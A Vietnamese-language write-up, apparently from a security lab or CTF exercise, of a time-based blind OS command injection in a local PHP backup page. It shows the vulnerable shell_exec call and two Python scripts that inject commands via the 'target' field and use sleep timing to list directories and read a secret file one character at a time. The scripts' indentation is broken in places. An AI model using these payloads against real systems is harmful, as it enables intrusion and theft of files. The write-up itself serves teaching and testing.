



# Time-based blind OS Command Injection localhost:3007
### 1. Tổng quan
lv7 là website cho phép người dùng thực hiện backup 

### 2. Phạm vi
### 3. Lỗ hổng
#### Description
localhost:3007 cho phép thực hiện backup
#### Impact
Kẻ xấu có thể chạy lệnh OS
#### Root-cause analysis

Trong mã nguồn `/src/index.php`, biến `$target` không được validate mà truyền thẳng vào hàm `shell_exec` dẫn tới việc kẻ xấu có thể thực thi câu lệnh OS

    case "backup":
        # Backup to /tmp/ folder and prevent writable to document root 
		$result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
        die("Đã chạy câu lệnh backup");
        break;

Mặc dù server chỉ phản hồi tín hiệu  là "Đã chạy câu lệnh backup" nhưng lệnh OS Command vẫn chạy ngầm. Dù không khó tín hiệu bên phía server nhưng có thể chạy các câu lệnh OS làm tốn nhiều time và nhờ tín hiệu time đó, kẻ xấu có thể đoán đoán được nội dung bên trong server 

#### Step to reproduce

1. Tìm file bí mật

Viết script bằng python để gửi response chứa data khai thác

    import requests
    import time
    CHARSET='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789.<=>?@[]^_`{|}~-'
    URL="http://localhost:3007/"
    index_hang=1
    index_cot=1
    secret=''
    while True:
    found=False
    print("========[DEBUG] Dang debug ky tu hang ",index_hang," ==============")
    for char in CHARSET:
        INJECT="abc.zip --help;cmd=$(ls -a / | sed -n {vitri_hang}p | cut -c {vitri_cot});if [ $cmd = '{bruteforce}' ];then sleep 2;else sleep 0;fi;#".format(
                vitri_hang=index_hang,
                vitri_cot=index_cot,
                bruteforce=char
            )
        data={'command':'backup','target':INJECT}
        response=requests.post(URL,data)
        delta=response.elapsed.total_seconds()
        print("Dang thu ky tu: ",char, 'voi time: ',delta,end='\r')
        if delta>1.9:
            found=True
            index_cot+=1
            secret+=char
            print("Ky tu hang ",index_hang," cot ",index_cot," la ",char)
            print("===>[SECRET]: ",secret)    
            break
    if not found:
        index_hang+=1
        index_cot=1
        secret+=' '
        #Tìm xong hết rồi end
        if index_hang > 20:
            print("[FINISHED] Da tim thay SecretFile: ",secret)
            break

2. Đọc file bí mật

Viết script bằng python để gửi response chứa data khai thác

    import requests
    import time
    FLAG=''
    URL="http://localhost:3007/"
    CHARSET='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789<=>?@[]^_`{|}~-'
    index=1
    while True:
    found=False
    print("========[DEBUG] Dang debug ky tu thu",index," ==============")
    for char in CHARSET:
        INJECT="abc.zip --help;cmd=$(cat /*secret.txt | cut -c {vitri});if [ $cmd = '{bruteforce}' ];then sleep 2;else sleep 0;fi;#".format(
            vitri=index,
            bruteforce=char
        )
        data={'command':'backup','target':INJECT}
        response=requests.post(URL,data)
        delta=response.elapsed.total_seconds()
        print("Dang thu ky tu: ",char, "voi time ",delta ,end='\r')
        if delta>1.9:
            found=True
            index+=1
            FLAG+=char
            print("Ky tu thu ",index," la ",char)
            print("====>[FLAG]: ",FLAG)
            break
    if not found:
        print("[FINISHED] Da tim thay FLAG: ",FLAG)
        break

